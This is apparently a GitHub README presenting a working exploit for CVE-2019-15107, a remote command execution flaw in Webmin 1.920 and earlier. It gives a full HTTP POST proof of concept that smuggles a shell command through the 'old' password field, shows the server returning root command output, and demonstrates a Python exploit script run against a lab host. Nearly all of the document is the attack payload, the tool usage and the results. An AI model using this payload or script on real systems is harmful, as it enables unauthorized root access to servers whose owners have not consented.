


# CVE-2019-15107  Webmin RCE <=1.920

```
1.  Webmin <=1.920
2.  need enable reset Password function
```
`https://10.10.20.166:10000/password_change.cgi`




### poc
```
POST /password_change.cgi HTTP/1.1
Host: 10.10.20.166:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://10.10.20.166:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2


<div class="panel-body">
<hr>
<center><h3>Failed to change password : The current password is incorrectuid=0(root) gid=0(root) groups=0(root)
</h3></center>
```
### python usage:
`python CVE_2019_15107.py https://10.10.20.166:10000 cmd`



```
C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

 _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
(  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___  \
| (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
| |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
| |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
| |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
| (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
(_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                          (_____)                              (_____)
                                     python By jas502n


vuln_url= https://10.10.20.166:10000/password_change.cgi

Command Result = uid=0(root) gid=0(root) groups=0(root)
```

### 参考链接：

https://github.com/vulhub/vulhub/tree/master/webmin/CVE-2019-15107
